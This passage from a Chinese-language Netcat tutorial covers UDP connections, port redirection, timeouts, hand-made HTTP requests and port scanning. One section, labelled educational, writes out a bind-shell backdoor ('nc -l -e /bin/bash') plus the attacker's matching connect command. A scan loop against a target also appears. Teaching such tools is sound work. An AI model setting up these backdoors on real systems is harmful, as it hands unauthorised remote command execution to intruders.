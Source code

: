 ```bash
# UDP服务器
nc -ul 1234

# UDP客户端
nc -u server_ip 1234
```

### 3. 端口重定向

```bash
# 将本地8080端口的流量重定向到远程服务器的80端口
nc -l 8080 | nc example.com 80
```

### 4. 创建后门（仅用于教育目的）

```bash
# 在目标机器上
nc -l -e /bin/bash 1234

# 在攻击者机器上
nc target_ip 1234
```

`-e`选项执行指定的程序，这里是bash shell。这会创建一个远程shell，允许攻击者执行命令。

### 5. 带超时的连接

```bash
nc -w 5 example.com 80
```

如果5秒内没有活动，连接将自动关闭。

## 实际应用场景 💼

### 1. 网络调试

Netcat是调试网络服务的理想工具。例如，你可以手动发送HTTP请求：

```bash
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc example.com 80
```

### 2. 安全测试

安全专家使用Netcat进行端口扫描、服务识别和漏洞评估：

```bash
# 扫描常见端口
for port in 21 22 23 25 80 443 3306 3389; do
    nc -zv target_ip $port
done
```
